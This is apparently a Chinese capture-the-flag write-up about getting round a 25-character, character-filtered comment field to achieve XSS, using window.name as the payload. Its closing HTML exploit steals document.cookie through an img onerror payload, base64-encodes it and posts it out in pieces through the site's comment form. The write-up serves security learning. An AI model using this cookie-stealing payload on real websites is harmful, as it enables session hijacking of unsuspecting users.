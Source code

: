 ```python
'updateElement("#comment", "你留下的评论：' + comment + '");'
```

`updateElement` 会直接把传入的参数写进 `innerHTML`。测试的时候可以直接调用
`updateElement`，避免把结果页玩坏。

评论禁止了 ``& > < ' ( ) ` . , %``，而且限制不超过 25 个字符。
禁止的字符可以通过转义使用，但是 25 个字符实在太少了，光是 `\x3cimg src=1\x3e`
就要 17 个字符，连 onerror 都写不下。根据提示，应该是要从自定义的站点打开练习网站，
把信息传递过去。

首先想到的是 URL。Query string 访问起来太长了，fragment 看起来还行。
我们可以先闭合前面的双引号，然后把表达式拼接上去，最后再补上双引号。

`"+location["hash"]+"`

但是 `hash` 会被 URL encode，不能直接用。先不说 `decodeURIComponent`
根本塞不进去，在这个限制下可没法调用函数。想了半天怎么在 URL encode
过的情况下在前后加内容能变成能执行 JavaScript 的 HTML，没想出来。

然后想到了 `javascript:` 地址。尝试了一下，发现可以开一个数组，在里面用赋值表达式。

`"+[location=1]+"`

太长了，想了一会不知道怎么把 `hash` 放进去。

又想到用 `Referrer` 传信息，但是 `open` 没法改。

比赛快结束的时候看到群里有人说 8 字节可以完成，第一反应是这是什么魔法，
然后想到这样范围就小了很多。翻了翻
[Window](https://developer.mozilla.org/en-US/docs/Web/API/Window)，里面的
`name` 刚好是 `open` 可以控制的，而且不会被编码，那直接 `"+name+"` 就行了。

剩下的问题是怎么把 flag 传出来。尝试了 `console`、`alert` 和 `throw` 都没反应。bot
本身只浏览不做其他动作，翻了 selenium
[文档](https://www.selenium.dev/selenium/docs/api/py/common/selenium.common.exceptions.html)
，里面的异常基本都不会被页面的 JavaScript 触发。尝试 open 无法访问的 URL 也没动静。

然后终于想到用练习网站的评论功能。因为禁止了一部分字符，所以先 base64
编码，拆开分多次发。每发完一次需要将评论恢复成 `"+name+"`，以及修改 `substring`
的参数。

```html
<!DOCTYPE html>
<html>
    <script>
        window.open('http://web/result', '\x3Cimg src=1 onerror="fetch(\'http://web/result\', { \'method\': \'POST\', \'headers\': { \'Content-Type\': \'application/x-www-form-urlencoded\', }, \'body\': \'comment=\' + btoa(document.cookie).substring(50, 75), })" />');
        // const data = new URLSearchParams();
        // data.append('comment', 'bot');
        // fetch(
        //     // 'http://web/result',
        //     'http://202.38.93.111:10051/result',
        //     {
        //         'method': 'POST',
        //         'headers': {
        //             'Content-Type': 'application/x-www-form-urlencoded',
        //         },
        //         'body': 'comment=' + btoa(document.cookie).substring(0, 25),
        //     }
        // )
    </script>
</html>
```
